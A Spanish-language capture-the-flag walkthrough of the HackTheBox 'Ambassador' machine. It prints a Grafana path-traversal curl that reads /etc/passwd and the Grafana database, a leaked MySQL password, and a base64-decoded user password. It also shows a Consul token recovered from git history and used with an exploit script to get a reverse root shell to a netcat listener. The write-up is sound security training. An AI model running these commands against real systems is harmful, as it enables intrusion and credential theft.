



Resolución de la máquina Ambassador de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.10.11.183
Nmap scan report for 10.10.11.183
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
3000/tcp open ppp
3306/tcp open mysql
Mirando el puerto 3000 podemos ver lo siguiente

Buscando exploits de grafana encontramos uno para leer archivos
❯ searchsploit grafana
------------------------------------------------------------ ---------------------------
Exploit Title | Path
------------------------------------------------------------ ---------------------------
Grafana 7.0.1 - Denial of Service (PoC) | linux/dos/48638.sh
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read | multiple/webapps/50581.py
------------------------------------------------------------ ---------------------------
Podemos ver lo que hace y hacerlo con curl, leemos el /etc/passwd y vemos los usuarios
❯ curl -s --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash
También podemos descargar la db de grafana para inspeccionarla
❯ curl -s --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
La abrimos con sqlitebrowser y podemos ver una tabla data_source, podemos darle a browse table

Al darle a browse table ncontramos credenciales para mysql

Nos conectamos y podemos ver algunas bases de datos entre ellas whackywidget, la usamos
❯ mysql -h10.10.11.183 -ugrafana -pdontStandSoCloseToMe63221!
Welcome to the MariaDB monitor. Commands end with ; or \g.
MySQL [(none)]> show databases;
+--------------------+
| Database |
+--------------------+
| grafana |
| information_schema |
| mysql |
| performance_schema |
| sys |
| whackywidget |
+--------------------+
MySQL [(none)]> use whackywidget;
Database changed
MySQL [whackywidget]>
Podemos ver la tabla users, al leerla vemos el usuario developer y un hash
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users |
+------------------------+
MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user | pass |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
MySQL [whackywidget]>
El "hash" solo es base64 asi que podemos verlo facilmente en texto claro
❯ echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d
anEnglishManInNewYork027468
Con estas credenciales nos conectamos por ssh y leemos la primera flag
❯ ssh developer@10.10.11.183
developer@10.10.11.183's password: anEnglishManInNewYork027468
developer@ambassador:~$ id
uid=1000(developer) gid=1000(developer) groups=1000(developer)
developer@ambassador:~$ hostname -I
10.10.11.183 dead:beef::250:56ff:feb9:3399
developer@ambassador:~$ cat user.txt
5c8**************************26c
developer@ambassador:~$
En la carpeta /opt/my-app podemos ver un proyecto de github y algunos commits
developer@ambassador:/opt/my-app$ git log --oneline
33a53ef (HEAD -> main) tidy config script
c982db8 config script
8dce657 created project with django CLI
4b8597b .gitignore
developer@ambassador:/opt/my-app$
Si vemos el último commit podemos ver que se ha quitado un token
developer@ambassador:/opt/my-app$ git show 33a53ef
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer
Date: Sun Mar 13 23:47:36 2022 +0000
tidy config script
diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
# We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
developer@ambassador:/opt/my-app$
Hay un exploit en github que desarrolle hace poco el cual podemos usar para escalar
Copiamos el exploit en la maquina victima y lo ejecutamos tal como nos indica el readme solo cambiando el lhost, esto envia la petición
developer@ambassador:~$ python3 exploit.py --lhost 10.10.14.10 --lport 443 --token bb03b43b-1d81-d62b-24b5-39540ee469b5
[+] Request sent successfully, check your listener
developer@ambassador:~$
Revisamos nuestro listener de netcat y tenemos una shell como root
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.183
root@ambassador:/# id
uid=0(root) gid=0(root) groups=0(root)
root@ambassador:/# hostname -I
10.10.11.183 dead:beef::250:56ff:feb9:5484
root@ambassador:/# cat /root/root.txt
7f7**************************296
root@ambassador:/#